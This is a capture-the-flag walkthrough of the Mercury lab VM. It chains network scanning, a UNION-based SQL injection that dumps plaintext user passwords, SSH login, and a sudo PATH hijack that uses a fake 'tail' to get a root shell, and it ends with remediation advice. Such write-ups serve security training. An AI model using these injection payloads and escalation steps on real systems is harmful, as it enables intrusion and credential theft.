

# Mercury VM — CTF Walkthrough

**By Gourgen Avakyan** — web enumeration ➔ SQLi ➔ creds ➔ SSH ➔ local priv-esc ➔ root flag

---

## TL;DR

This walkthrough covers a full exploit chain on the Mercury VM — a tiny hacker playground. We start with network reconnaissance, discover a Django debug page ripe for SQL injection, dump credentials, gain SSH access, and escalate privileges via a path-hijack on a misconfigured sudo script. Root is obtained, flags captured, and ego slightly inflated💥. All steps are done in a lab, so it’s safe…ish. 😎

---

## TABLE OF CONTENTS

1. [Setup & Recon](#section-1---setup--recon)
2. [Web Enumeration & SQL Injection](#section-2---web-enumeration--sql-injection)
3. [SSH Access](#section-3---ssh-access)
4. [Local Privilege Escalation via PATH Hijack](#section-4---local-privilege-escalation-via-path-hijack)
5. [Root Flag Captured](#section-5---root-flag-captured)
6. [Lessons Learned & Remediation](#section-6---lessons-learned--remediation)
7. [Appendix: Tools & Commands](#section-7---appendix-tools--commands)

---

# SECTION 1 --- SETUP & RECON

- **Target:** Mercury VM
- **Difficulty:** Easy
- **Attacker:** Kali Linux
- **Network:** Host-Only / NAT — ensure your VMs can talk.

### Quick Discovery

```bash
sudo arp-scan -l
sudo nmap -sn 192.168.1.0/24
```

Open ports: 22 (SSH), 8080 (Mercury web portal)


Quick service scan:

```bash
  sudo nmap -sC -sV -A 192.168.1.107 -oN scans/nmap_initial.txt
```


---

# SECTION 2 --- WEB ENUMERATION & SQL INJECTION

### Step 1 — Homepage & robots.txt

```bash
  curl -s -k http://192.168.1.107:8080/ | head -n 20
```


Homepage is a placeholder. Excitement level: 0. All the dramatic tension is off-stage.

```bash
  curl -s -k http://192.168.1.107:8080/robots.txt
```

```
# User-agent: *
# Disallow: /
```

Takeaway: Everything is “forbidden” to robots. Real content lurks in hidden directories. Cue suspicious grin.


### Step 2 — 404 and Django DEBUG

```bash
  curl -i -k http://192.168.1.107:8080/admin
```

Result: 404 + Django DEBUG=True
Django project: mercury\_proj
URLConf routes: index, robots.txt, mercuryfacts/
Conclusion: /mercuryfacts/ is the main attraction. DEBUG=True → stack traces, potential info leaks. Jackpot!!!


We found the real landing page:


And the TODO items — the developer’s confessional:

### Step 3 — Brute-force /mercuryfacts/

```bash
    dirsearch -u http://192.168.1.107:8080/mercuryfacts -w /usr/share/wordlists/dirb/big.txt
```

Output snippet:

```
500 - /mercuryfacts/cgi-bin/
200 - /mercuryfacts/todo
```


/cgi-bin/ → 500 error, likely stack trace waiting to be explored
/todo → confirms a users table and direct SQL usage — direct route to SQLi.

### Step 4 — Check /mercuryfacts/todo

```bash
  curl -s -k http://192.168.1.107:8080/mercuryfacts/todo
```

```
<ul>
    <li> Add CSS. </li>
    <li> Implement authentication (using users table)</li>
    <li> Use models in django instead of direct mysql call</li>
    <li> All the other stuff, so much!!! </li>
</ul>
```

Direct MySQL calls + users table = SQL injection playground. TODO list confirms dev chaos. Perfect for CTF shenanigans.


### Step 5 — Check /cgi-bin/ (500 error)

```bash

curl -s -k http://192.168.1.107:8080/mercuryfacts/cgi-bin/ -o cgi_bin_output.html
less cgi_bin_output.html
```

500 error page → stack trace
Look for: filesystem paths (/home/user/.../mercury\_proj/settings.py), config variables (DATABASES, SECRET\_KEY, DEBUG), possible credentials or hints.


### Step 6 — Quick test for SQLi

```bash

  curl -s -k -L "http://192.168.1.107:8080/mercuryfacts/0%20OR%201%3D1/" -o out_all_facts.html
  sed -n '1,200p' out_all_facts.html
```


Confirmed injection. Extract all users:

```bash
  curl -s -k -L "http://192.168.1.107:8080/mercuryfacts/0 UNION SELECT GROUP_CONCAT(username,0x3a,password SEPARATOR '<br>') FROM users/" -o out_users.html
```

Juicy credentials:

```
john:johnny1987
laura:lovemykids111
sam:lovemybeer111
webmaster:mercuryisthesizeof0.056Earths
```


Moral: Never leave DEBUG=True in production, kids, and try not to concatenate SQL strings like it’s 1999. 💀

---

# SECTION 3 --- SSH ACCESS

```bash

ssh webmaster@192.168.1.107
# password: mercuryisthesizeof0.056Earths
```

Found user\_flag.txt

Also `notes.txt` with Base64-encoded creds:

```
webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```


Now let's decode `notes.txt`:

```bash

echo "bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK" | base64 -d
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d

```
We now have the password for `linuxmaster` as well. Helpful. Fortunate. Predictable.

---

# SECTION 4 --- LOCAL PRIVILEGE ESCALATION VIA PATH HIJACK

### Step 1 — Become linuxmaster:
First, check sudo as `webmaster` (just to be thorough):
```bash

sudo -l
# (use password from notes.txt — Base64 decoded)
```


Now switch user:

```bash

su - linuxmaster
# password from notes.txt (Base64 decoded)
```

### Step 2 — Check sudo privileges:

```bash
  sudo -l
```

Output:

```
User linuxmaster may run (root : root) SETENV: /usr/bin/check_syslog.sh
```



Script content:

```bash

#!/bin/bash
tail -n 10 /var/log/syslog
```


Because tail is invoked without an absolute path, providing a directory earlier in PATH can cause the script to execute our binary as root. It’s a classic — elegant in its simplicity.

### Step 3 — Create malicious tail & hijack PATH:

```bash

cat > /tmp/tail <<'EOF'
/bin/bash -p
EOF
chmod +x /tmp/tail
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
```


Congratulations — you now have a root shell. Be judicious with your celebration.

---
# SECTION 5 --- ROOT FLAG CAPTURED

```bash
whoami
# root
cat /root/root_flag.txt 2>/dev/null \
  || cat /root/flag.txt 2>/dev/null \
  || find /root -maxdepth 2 -type f -iname "*flag*" -exec cat {} \; 2>/dev/null
#Congratulations on completing Mercury!!!
#Bla, bla, bla...
# [root_flag_69426d9fda579afbffd9c2d47ca31d90]
```


---

# SECTION 6 --- LESSONS LEARNED & REMEDIATION

* DEBUG=True is lethal — never leave it in production.
* Developer notes with creds? Delete them. Always.
* Sudo scripts running binaries without full paths? Path hijack city.
* SQLi still works if ORM/sanitization ignored → parametrize queries.
* Always audit SUID scripts, hard-coded passwords, and writable PATH directories.

---

# SECTION 7 --- APPENDIX: TOOLS & COMMANDS

**Tools used:**

* nmap, arp-scan
* curl
* dirsearch
* ssh, su, sudo
* /bin/bash

**Useful commands:**

```bash
sudo nmap -sC -sV -A 192.168.1.107
dirsearch -u http://192.168.1.107:8080/mercuryfacts -w /usr/share/wordlists/dirb/big.txt
curl -s -k -L "http://192.168.1.107:8080/mercuryfacts/0 UNION SELECT ..."
ssh webmaster@192.168.1.107
su - linuxmaster
sudo PATH=/tmp:$PATH /usr/bin/check_syslog.sh
cat /root/root_flag.txt
```

**FINAL ETHICAL REMINDER:**
Everything here was tested in a lab VM. Do not try this on any network you do not own or have explicit permission to test. Responsible disclosure is sexy. 😎

Snapshot: From nmap to SQLi, to SSH, to PATH hijack — Mercury VM taught three things: devs leave secrets lying around, debug pages are dangerous, and PATH hijacks are still hilarious. Root flag captured. 💀🎉
